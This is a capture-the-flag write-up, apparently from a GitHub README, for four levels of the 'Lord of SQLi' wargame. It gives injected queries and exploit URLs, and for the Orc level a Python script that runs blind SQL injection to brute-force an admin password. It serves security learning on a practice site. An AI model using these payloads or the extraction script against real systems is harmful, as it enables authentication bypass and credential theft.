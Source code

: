 # Lord of SQLi



## Gremlin
![image](https://github.com/keerthiprabup/Webtasks/blob/main/Lordofsqli/images/Gremlinq.png)
Solution:

Using ?id=1&pw=1%27%20or%201%23 would result the query execute.

query : select id from prob_gremlin where id='1' and pw='1' or 1#'

link: https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php?id=1&pw=1%27%20or%201%23

## Cobolt

![image](https://github.com/keerthiprabup/Webtasks/blob/main/Lordofsqli/images/Cobolt.png)

query : select id from prob_cobolt where id='' or id='admin' #' and pw=md5('')

link:https://los.rubiya.kr/chall/cobolt_b876ab5595253427d3bc34f1cd8f30db.php?id=%27%20or%20id=%27admin%27%20%23

## Goblin

![image](https://github.com/keerthiprabup/Webtasks/blob/main/Lordofsqli/images/Goblin.png)

query : select id from prob_goblin where id='guest' and no=1 or 1 limit 1,1

link: https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=1%20or%201%20limit%201,1#


## Orc
![image](https://github.com/keerthiprabup/Webtasks/blob/main/Lordofsqli/images/Orc.png)


Script:

                import requests
                url="https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"
                header={"Cookie":"PHPSESSID=3rrijviseh2kgti5bc5st8ov7u"}
                sess=requests.session()

                payload="?pw=' or id='admin' and length(pw)="
                for i in range(1,100):
                    pay=url+payload+str(i)+"%23"
                    x=sess.get(pay,headers=header)
                    print("Check:",i,end=" ")
                    
                    if "Hello admin" in x.text:
                        length=i
                        break
                    else:
                        print("Fail")
                print("Success\nlength:",length)

                wordlist="qwertyuiopasdfghjklzxcvbnm1234567890"
                payload="?pw=' or id='admin' and substr(pw,"
                password=''
                for i in range(1,length+1):
                    print("check:",i,end="")
                    for j in range(len(wordlist)):
                        pay=url+payload+str(i)+",1)="+wordlist[j]+"%23"
                        x=sess.get(pay,headers=header)
                        if "Hello admin" in x.text:
                            password+=wordlist[j]
                            print("pass:",wordlist[j])
                            break
                print("Password:"+password)
                
                

Output:
![image](https://github.com/keerthiprabup/Webtasks/blob/main/Lordofsqli/images/Orcans.png)






